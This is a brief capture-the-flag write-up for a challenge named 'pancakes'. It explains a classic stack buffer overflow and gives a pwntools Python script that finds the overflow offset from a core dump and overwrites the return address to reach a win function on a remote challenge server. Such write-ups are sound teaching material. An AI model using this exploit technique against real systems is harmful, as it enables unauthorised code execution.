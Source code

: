 # pancakes
![desc](https://i.ibb.co/f8bq8x5/pancakes0.png)

This one was a classic bof, we just need to overwrite EIP with the address of the win function(secret_recipe).

![winfunc](https://i.ibb.co/HX8SMDS/pancakes2.png)

```python
#!/usr/bin/python3

from pwn import *

p = process('./pancakes')

p.recvuntil('How many pancakes do you want?')
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)

payload  = padding * b'A'
payload += p64(0x40098b)

p = remote('jh2i.com', 50021)
p.recvuntil('How many pancakes do you want?')
p.sendline(payload)
p.stream()
```
